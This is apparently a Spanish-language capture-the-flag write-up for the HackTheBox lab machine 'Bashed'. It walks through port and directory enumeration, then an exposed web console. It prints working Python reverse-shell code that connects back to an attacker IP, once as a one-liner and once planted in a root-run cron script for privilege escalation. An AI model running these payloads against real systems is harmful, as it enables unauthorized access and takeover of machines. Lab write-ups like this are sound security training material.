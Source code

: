 ```yaml
---
title: "Bashed"
date: Fri Aug 23 2024 10:13:12 GMT+0200 (Central European Summer Time)
categories: [WriteUp, HTB]
tags: [fuzzing, gobuster, pspy]
image: /assets/img/cabeceras/2024-08-23-bashed---writeup.png
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Sat Jan 27 20:55:30 2024 as: nmap -sCV -p 80 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xs
l -oN targeted -oX targetedXML 10.129.79.90
Nmap scan report for 10.129.79.90
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 27 20:55:38 2024 -- 1 IP address (1 host up) scanned in 8.04 seconds
```

NMAP HTTP-ENUM

```bash
nmap -sCV -p80 --script http-enum 10.129.79.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 20:57 CET
Nmap scan report for 10.129.79.90
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.96 seconds
```

HTTP

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127205956.png)

Vamos a realizar fuzzing de directorios y ficheros.

```bash
$ gobuster dir -u http://10.129.79.90 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --follow-redirect --add-slash
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 293]
/uploads/             (Status: 200) [Size: 14]
/php/                 (Status: 200) [Size: 940]
/css/                 (Status: 200) [Size: 1759]
/images/              (Status: 200) [Size: 1565]
/dev/                 (Status: 200) [Size: 1149]
/js/                  (Status: 200) [Size: 3166]
/fonts/               (Status: 200) [Size: 2096]
/server-status/       (Status: 403) [Size: 301]
```

Dentro de /dev encontramos lo siguiente:

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211027.png)

Si pulsamos en cualquiera de los dos abriremos una consola de ejecución local de comandos.

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127211226.png)


## Explotación

Vamos a intentar mandarnos una reverse shell.

Nos ponemos a la escucha por el puerto 4444 con _NetCat_

```bash
$ nc -nlvp 4444
```

Ejecutamos lo siguiente:

```bash
www-data@bashed:/var/www/html/dev# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127212741.png)

Hacemos un _sudo -l_ y vemos algo interesante...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220412.png)

Podemos ejecutar comandos como el usuario _scriptmanager_ sin proporcionar contraseña.

## Escalada

Nos subimos _linpeas_ y _pspy_ y seguimos enumerando...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220643.png)

Con _pspy_ descubrimos que root ejecuta un script en python que ejecuta todos los scripts con extensión .py dentro de la carpeta /scripts. Pero no podemos ver ni entrar en esa carpeta, vamos a ver a quién pertenece...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127220925.png)

Sospechosamente pertenece al usuario _scriptmanager_...

Pero recordamos que tenemos el permiso de ejecutar tareas como ese usuario así que vamos a intentar enviarnos una shell...

```bash
$ sudo -u scriptmanager bash -i
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221109.png)

Y funciona! somo el usuario _scriptmanager_!

Ahora podemos modificar y entrar en la carpeta /script. Como existe una tarea que ejecuta scripts cada dos minutos como usuario _root_, lo que tendremos que hacer es crear un archivo Python que nos mande una shell ...

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127221415.png)

Creo que bastará con modificar el archivo .py existente.

Lo abrimos y lo dejamos así:

```python
import socket,subprocess,os 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.93",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Grabamos y nos ponemos en escucha por el puerto que hayamos indicado:

```bash
$ mc -nlvp 8888
```

![image](/assets/img/2024-08-23-bashed---writeup/pasted-image-20240127222242.png)

Reto conseguido!

